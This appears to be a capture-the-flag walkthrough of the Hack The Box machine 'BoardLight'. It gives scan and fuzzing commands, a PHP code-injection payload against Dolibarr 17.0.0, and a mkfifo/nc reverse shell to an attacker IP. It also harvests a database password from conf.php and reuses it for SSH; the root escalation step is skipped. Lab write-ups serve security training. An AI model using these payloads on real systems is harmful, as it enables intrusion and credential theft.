 sudo nmap -sC -sV -T4 10.10.11.11

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nano /etc/hosts
10.10.11.11 boardlight.htb

# Since it only have 2 port open, lets see how we can exploit the port 80 
# Lets try out the directory and subdomain buster

gobuster dns -d boardlight.htb -w /home/kali/Tools/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt
gobuster dir -u http://boardlight.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 4 
# Gobuster cant find the directory

# We still can try with ffuf and wfuzz
ffuf -w /usr/share/wordlists/wfuzz/general/medium.txt -u http://FUZZ.boardlight.htb 

wfuzz -H "Host: FUZZ.board.htb" --hc 404,403 -H "User-Agent: PENTEST" -c -z file,"/home/kali/Tools/SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt" -u http://board.htb --hl 517
...
000000072:   200        149 L    504 W      6360 Ch     "crm" 
...

# Supprisingly we can use admin:admin creedentials to login

# Found out the admin console is using dolibarr 17.0.0 and there is a vulnerability we can use
https://www.swascan.com/security-advisory-dolibarr-17-0-0/

<?PHP echo system("whoami")."<br><br>".system("pwd")."<br><br>".system("ip a");?>
...
www-data /var/www/html/crm.board.htb/htdocs/website 1: lo: mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000 link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00 inet 127.0.0.1/8 scope host lo valid_lft forever preferred_lft forever inet6 ::1/128 scope host valid_lft forever preferred_lft forever 2: eth0: mtu 1500 qdisc mq state UP group default qlen 1000 link/ether 00:50:56:b9:66:93 brd ff:ff:ff:ff:ff:ff altname enp3s0 altname ens160 inet 10.10.11.11/23 brd 10.10.11.255 scope global eth0 valid_lft forever preferred_lft forever inet6 dead:beef::250:56ff:feb9:6693/64 scope global dynamic mngtmpaddr valid_lft 86400sec preferred_lft 14400sec inet6 fe80::250:56ff:feb9:6693/64 scope link valid_lft forever preferred_lft forever www-data
/var/www/html/crm.board.htb/htdocs/website
...

# Lets prepare a PHP nc script
<?PHP system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1| nc 10.10.14.13 8443 >/tmp/f");?>

www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
...
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
...

# Obtain 
ssh larissa@10.10.11.11
serverfun2$2023!!

larissa@boardlight:~$ cat user.txt
efe5a867f54c3b7734b4d46c2804a986

# Upload linpeas and run
bash ./linpeas.sh


# cat root.txt
40f25ade8ae212b10b324a5da61042fb

